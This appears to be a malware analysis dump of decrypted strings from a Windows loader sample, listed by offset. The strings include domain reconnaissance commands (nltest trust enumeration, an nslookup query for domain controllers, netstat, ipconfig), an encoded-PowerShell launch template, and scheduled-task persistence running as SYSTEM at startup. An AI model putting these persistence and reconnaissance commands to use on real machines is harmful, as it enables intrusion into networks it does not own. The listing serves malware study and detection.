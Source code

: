 Blob 2 #0xc8 --> Self test OK.
_______________________________________________________
Blob 2 #0xd6 --> qwinsta
_______________________________________________________
Blob 2 #0xde --> cmd
_______________________________________________________
Blob 2 #0xe2 --> SELF_TEST_1
_______________________________________________________
Blob 2 #0xee --> adrclient.dll
_______________________________________________________
Blob 2 #0xfc --> %s %04x.%u %04x.%u res: %s seh_test: %u consts_test: %d vmdetected: %d createprocess: %d
_______________________________________________________
Blob 2 #0x155 --> ewW300ns6&6HyygkKzfVVCJHq210vQLq7*uCNorQns
_______________________________________________________
Blob 2 #0x180 --> nltest /domain_trusts /all_trusts
_______________________________________________________
Blob 2 #0x1a2 --> %s \"$%s = \\\"%s\\\\; & $%s\"
_______________________________________________________
Blob 2 #0x1c1 --> ProgramData
_______________________________________________________
Blob 2 #0x1cd --> nslookup -querytype=ALL -timeout=12 _ldap._tcp.dc._msdcs.%s
_______________________________________________________
Blob 2 #0x209 --> runas
_______________________________________________________
Blob 2 #0x20f --> powershell.exe -encodedCommand %S
_______________________________________________________
Blob 2 #0x231 --> ipconfig /all
_______________________________________________________
Blob 2 #0x23f --> %u;%u;%u;
_______________________________________________________
Blob 2 #0x249 --> route print
_______________________________________________________
Blob 2 #0x255 --> schtasks.exe /Delete /F /TN %u
_______________________________________________________
Blob 2 #0x274 --> schtasks.exe /Create /RU "NT AUTHORITY\SYSTEM" /SC ONSTART /TN %u /TR "%s" /NP /F
_______________________________________________________
Blob 2 #0x2c6 --> error res='%s' err=%d len=%u
_______________________________________________________
Blob 2 #0x2e3 --> c:\ProgramData
_______________________________________________________
Blob 2 #0x2f2 --> Component_08
_______________________________________________________
Blob 2 #0x2ff --> netstat -nao
_______________________________________________________
Blob 2 #0x30c --> Self check
_______________________________________________________
Blob 2 #0x317 --> at.exe %u:%u "%s" /I
_______________________________________________________
Blob 2 #0x32c --> /teorema505
_______________________________________________________
Blob 2 #0x338 --> Microsoft
_______________________________________________________
Blob 2 #0x342 --> Component_07
_______________________________________________________
Blob 2 #0x34f --> microsoft.com,google.com,kernel.org,www.wikipedia.org,oracle.com,verisign.com,broadcom.com,yahoo.com,xfinity.com,irs.gov,linkedin.com
_______________________________________________________